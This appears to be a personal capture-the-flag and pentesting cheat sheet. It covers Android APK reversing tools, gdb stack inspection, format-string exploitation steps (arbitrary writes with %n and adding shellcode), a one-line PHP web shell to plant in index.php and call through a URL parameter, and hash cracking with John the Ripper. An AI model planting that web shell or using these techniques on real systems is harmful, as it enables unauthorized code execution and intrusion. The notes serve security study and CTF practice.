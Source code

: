 
# Reverse
## APK (Android)
**VSCode APKLab (all-in-one)**, else:
- adb: connect to phone
- apktool: decompile recompile etc
- jadx: decompiler
- jarsigner: resign


Decompile, open javasrc, com, etc: sources

getString(): get hex ID, grep in res/values/ (often strings.xml)

## Buffer Overflow
- Check Refresher
- gdb:
	- layout asm, layout regs
	- x /20x $rsp (stack)

## Format string
- use "AAAA%08x-%08x-%08x-..." to get indexes: STARTS AT 1
- check with "AAAA%i$p", i=index to display argument i
- write value v to address (flipped) AAAA, AAAA being argument i: "AAAA%(val-4)x%i$n" (%n int, %hn two bytes, %hhn one byte)
- link several writes: "AAAABBBB%(val1-8)x%1$hn%(val2-val1)x%2$hn", writing full address
- add shellcode: round modulo 4, put shellcode|format, and change indexes accordingly (+=len(rounded_shellcode/4))

# PHP
One liner shell (to index.php):
<?php system($_GET["cmd"]); ?>
Then goto <victim>/index.php?cmd=<cmd_to_run>


# PWN
## Hash
### Magic regex (Linux format hash)
`grep ./ -Erne '\$[^$ ]+(\$[^$ ]+)*\$[^ ]*'`

### John
(no trailing nothing, eventually \n)  
Careful when echo >, needs echo -n to avoid \n  
`john --wordlist=[WordList] --format=raw-sha256 hash.txt`
No user (start with $hash$salt)
